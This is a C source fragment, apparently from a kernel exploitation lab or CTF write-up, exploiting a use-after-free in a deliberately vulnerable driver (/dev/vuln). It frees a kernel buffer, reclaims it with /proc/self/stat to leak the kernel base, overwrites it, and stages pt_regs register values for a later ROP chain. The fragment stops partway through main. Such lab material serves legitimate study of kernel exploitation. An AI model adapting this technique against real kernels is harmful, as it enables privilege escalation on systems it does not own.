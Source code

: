 ```c

int kfree() { 
    ioctl(driver_fd, FREE, NULL); 
}

int kread(char *buf) {
  ioctl(driver_fd, USE_READ, buf);
  return 0;
}

int kalloc(size_t size) {
  int val = 0;
  printf("Allocating kernel buffer\n");
  val = ioctl(driver_fd, ALLOC, &size);
  printf("val = %d\n", val);
  if (val < 0) {
    printf("Failed to allocate memory : 0x%08x\n", val);
  }
  return val;
}

static inline void set_pt_regs() {
    asm volatile(
        ".intel_syntax noprefix;"

        "mov rcx, 0x4141414141414141;"
        "mov rdi, 0x4141414141414142;"
        "mov rdx, 0x4141414141414143;"        
        "mov rsi, 0x4141414141414144;"
        "mov rbp, 0x4141414141414145;"

        "mov r15, 0x4141414141414146;"
        "mov r14, 0x4141414141414147;"
        "mov r13, 0x4141414141414148;"
        "mov r12, 0x4141414141414149;"
        "mov r10, 0x414141414141414a;"
        "mov r9,  0x414141414141414b;"
        "mov r8,  0x414141414141414c;"
    );
}

int main(int argc, char *argv[]) {
    driver_fd = open_dev("/dev/vuln");
    char buf[100] = {0};

    kalloc(0x20);
    kfree();

    int fd = open("/proc/self/stat", O_RDONLY);

    kread(buf);
    uint64_t start_ptr = *(uint64_t *)buf;
    kbase = start_ptr - 0x2ba4b0;

    printf("[+] Leaked start pointer: %#lx\n", start_ptr);
    printf("[+] Kernel base: %#lx\n", kbase);

    char payload[8] = {0};
    memset(payload, 'A', 8);

    ioctl(driver_fd, USE_WRITE, payload);
    set_pt_regs();
    read(fd, 0, 1);
```